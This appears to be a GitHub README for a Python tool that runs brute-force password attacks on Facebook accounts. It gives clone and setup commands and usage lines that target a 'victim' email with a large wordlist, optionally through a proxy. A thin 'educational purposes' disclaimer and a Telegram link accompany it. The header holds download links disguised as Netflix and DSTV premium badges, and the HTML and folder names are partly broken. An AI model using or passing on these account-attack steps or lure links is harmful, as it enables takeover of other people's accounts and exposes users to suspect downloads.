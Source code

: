 
<a href="https://devuploads.com/5i9lnjzalx74"><img title="GOTV AND DSTV PREMIUM" src="https://img.shields.io/badge/DSTV & GOTV-h?color=navyblue&style=for-the-badge&logo=DSTV"></a>


<a href="<a href="https://devuploads.com/5i9lnjzalx74"><img title="GOTV AND DSTV PREMIUM" src="https://img.shields.io/badge/NETFLIX-h?color=navyblue&style=for-the-badge&logo=DSTV"></a>
"><img title="NETFLIX" src="https://img.shields.io/badge/DSTV & GOTV-h?color=navyblue&style=for-the-badge&logo=NETFLIX"></a>

# Facebook_hack
###### Powerfull Facebook Bruteforce Attack.
***
### <p align="center">Commands to run tool in ur terminal Termux && Kali Linux
***

 ```bash
Note : Tool is Made of Educational Purposes only.
       Please try not to harm anyone device 
       it's For Fun Purpose Not For Revenge
       (Join Us https://t.me/Dragonarlobot)
```
## Language is used to Make this tool
- Python
  
## The Tool is for :
- Windows
- Kali Linux
- Android~Termux
- macOs
- any Os has python(2.x, 3.x) with required modules

###### Installation
```bash
apt update && apt upgrade -y
```
```bash
apt install git -y
```
```bash
git clone https://github.com/Arlo-dragony/HACHER-DRAGON-FACEBOOK-ATTACK.git
```
```bash
cd Facebook_hack
```
```bash
bash setup
```
```bash
python facebook_hack.py
```

## usage :-
  - **U can Use Victim email Or Facebook Profile Id**:
  
  - **Brute Force On Facebook Account Without proxy**:
  
  * **Command**: python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt
  
  - **Brute Force On Facebook Account With Proxy**:
   
    * **Command**: python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129
    
    - **Get Target Facebook Profile ID**:
  
   
    * **Command**: python facebook_hack.py -g https://www.facebook.com/dragon
  
